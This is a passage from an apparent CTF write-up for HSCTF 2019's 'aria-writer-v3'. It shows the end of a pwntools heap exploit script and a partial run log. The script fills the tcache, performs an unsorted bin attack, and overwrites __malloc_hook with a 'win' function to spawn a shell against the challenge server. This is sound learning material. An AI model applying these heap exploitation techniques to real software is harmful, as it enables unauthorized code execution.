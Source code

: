 ```Python
	log.info("filling 0x80 tcache entry")
	for i in xrange(7): free()
	log.info("putting 0x80 chunk to unsorted bin")
	free()

	log.info("overwriting bk to trigger unsorted bin attack")
	write(0x110,0x602058,p64(0x602050-0x10))

	log.info("populating 0x602050 with main arena ptr")
	allocate(0x80,p16(0x6c30))
	
	log.info("bruteforcing 4 bit to land 0x150 chunk on __malloc_hook")
	allocate(0x150,p16(0x6c30))
	allocate(0x150,p64(exe.symbols["win"]))

	log.warning("shell should've popped by now...")
	r.sendlineafter("> ",'1')
	r.sendlineafter("> ",'1')

	r.interactive()

# context.log_level = "debug"
exe = ELF("./aria-writer-v3")
libc = exe.libc

if len(sys.argv) < 2:
	r = process(exe.path,aslr=False)
	gdb.attach(r,"""
		b *0x400a3c
		b *0x400a86
		# b *execve
		c
	""")
else:
	r = remote("pwn.hsctf.com",2468)

exploit()
```



Output:
```
tempest@tempestuous:~/CTF/2019/hsctf/pwn/ariav3$ python exploit.py go
[*] '/home/tempest/CTF/2019/hsctf/pwn/ariav3/aria-writer-v3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.hsctf.com on port 2468: Done
[*] faking chunk metadatas (0x150 & 0x80)
[*] overwriting n_notes with INT_MIN
[*] setup malloc
[*] faking 0x90 size and prev size
[*] double freeing 0x602050 with size of 0x150
[*] setting 0x602050 size to 0x80
[*] filling 0x80 tcache entry
```
